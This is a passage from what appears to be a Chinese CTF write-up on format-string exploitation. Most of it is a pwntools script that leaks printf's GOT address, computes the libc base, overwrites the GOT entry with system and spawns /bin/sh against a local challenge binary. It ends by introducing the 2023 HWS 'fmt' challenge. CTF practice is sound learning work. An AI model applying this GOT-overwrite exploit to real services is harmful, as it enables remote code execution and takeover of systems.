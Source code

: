 ```bash


p = remote('127.0.0.1',10002)
#elf=ELF('./dump_bin')
libc=ELF('/lib/i386-linux-gnu/libc.so.6')
#p=process('./dump_bin')

printf_plt=0x08048490
name='aaaa'
p.sendline(name)
p.recv()

payload=b'%9$saaaa'+p32(printf_plt)
p.sendline(payload)
p.recvuntil('right:')
p.recvuntil('\xff\x25')
printf_got=u32(p.recv(4))
leak('printf_got',printf_got)

p.recv()

payload1=b'%9$saaaa'+p32(printf_got)
p.sendline(payload1)
p.recvuntil('right:')
printf=u32(p.recv(4))
leak('printf',printf)

libcbase=printf-libc.symbols['printf']
leak('libcbase',libcbase)

system=libcbase+libc.symbols['system']
leak('system',system)


shell=fmtstr_payload(7, {printf_got: system})
p.sendline(shell)
p.sendline('/bin/sh\00')
p.interactive()
```

#### 2023HWS fmt

在学习完格式化字符串之后，尝试下去打了 HWS 的 fmt 这道题，比赛时还差一点打出来，赛后在其他师傅的指导下打出来了

**file&checksec**

[![](assets/1701612281-96be9f4cda8f662dc6988635da43870d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224306-67f894a4-2579-1.png)
